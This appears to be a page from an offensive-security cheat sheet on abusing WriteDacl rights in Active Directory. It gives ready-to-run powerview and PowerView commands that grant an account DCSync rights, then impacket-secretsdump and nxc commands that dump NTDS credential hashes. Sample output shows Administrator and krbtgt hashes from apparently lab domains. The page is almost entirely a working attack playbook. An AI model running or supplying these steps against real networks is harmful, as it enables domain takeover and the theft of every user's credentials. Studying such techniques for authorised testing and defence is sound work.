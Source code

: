 ```yaml
---
title: "WriteDacl"
date: 2024-7-12
tags: ["Writedacl", "Dcsync", "Powerview", "Credential Dumping", "Active Directory", "Windows"]
---
```


### Abuse #1: Add dcsync right to user

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}
{{< tab set1-1 tab1 active >}}powerview.py{{< /tab >}}
{{< tabcontent set1-1 tab1 >}}

#### 1. Connect to DC

```console
# With password
powerview '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>'
```

```console
# With hash
powerview '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -H <HASH>
```

```console {class="sample-code"}
$ powerview 'CORP.LOCAL/WEB01$@172.16.1.5' -H 7ddf32e17a6ac5ce04a8ecbf782ca509
(LDAP)-[DC01.corp.local]-[CORP\WEB01$]
PV > 
```

#### 2. Add dcsync right

```console
Add-DomainObjectAcl -PrincipalIdentity '<USER>' -TargetIdentity '<TARGET_IDENTITY>' -Rights DCSync
```

```console {class="sample-code"}
(LDAP)-[DC01.corp.local]-[CORP\WEB01$]
PV > Add-DomainObjectAcl -PrincipalIdentity 'WEB01$' -TargetIdentity 'DC=corp,DC=local' -Rights DCSync
[2024-10-01 12:51:36] [Add-DomainObjectACL] Found target identity: DC=corp,DC=local
[2024-10-01 12:51:36] [Add-DomainObjectACL] Found principal identity: CN=WEB01,OU=Web Servers,OU=Servers,OU=Corp,DC=corp,DC=local
[2024-10-01 12:51:36] DACL modified successfully!
```

{{< /tabcontent >}}
{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add dcsync right

```console
Add-DomainObjectAcl -PrincipalIdentity '<USER>' -TargetIdentity '<TARGET_IDENTITY>' -Rights DCSync -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync -Credential $Cred
```

{{< /tabcontent >}}

#### Secrets dump

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

```console {class="sample-code"}
$ impacket-secretsdump 'svc-alfresco:s3rvice@10.10.10.161'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
---[SNIP]---
[*] Cleaning up...
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
nxc smb <TARGET> -d <DOMAIN> -u '<USER>' -H <HASH> --ntds
```

```console {class="sample-code"}
$ nxc smb 172.16.1.5 -d CORP.LOCAL -u 'WEB01$' -H 7ddf32e17a6ac5ce04a8ecbf782ca509 --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
SMB         172.16.1.5      445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:True)
SMB         172.16.1.5      445    DC01             [+] CORP.LOCAL\WEB01$:7ddf32e17a6ac5ce04a8ecbf782ca509
SMB         172.16.1.5      445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         172.16.1.5      445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.1.5      445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:ac2b5f88fc33b7b9e0682be85784ec0d:::
---[SNIP]---
```

{{< /tabcontent >}}